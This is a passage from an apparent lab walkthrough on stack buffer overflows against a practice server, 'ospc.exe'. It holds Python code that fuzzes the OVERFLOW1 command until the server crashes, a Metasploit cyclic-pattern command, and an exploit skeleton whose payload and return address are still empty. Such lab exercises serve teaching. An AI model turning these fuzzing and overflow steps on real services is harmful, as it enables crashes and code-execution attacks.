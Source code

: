 ```python
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

Make sure `ospc.exe` is running in Immunity Debugger, then launch the fuzzing script. 
If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note 
of the largest number of bytes that were sent.

## Creating a cyclic pattern

Finding the `EIP` offset requires creating a pattern with the length that was required to crash the program. For 
example, by using Metasploit and adding 400 bytes to the 2000 that crashed the server:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Edit the python payload below and add the cyclic pattern to the payload variable:

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except socket.error:
  print("Could not connect.")

```
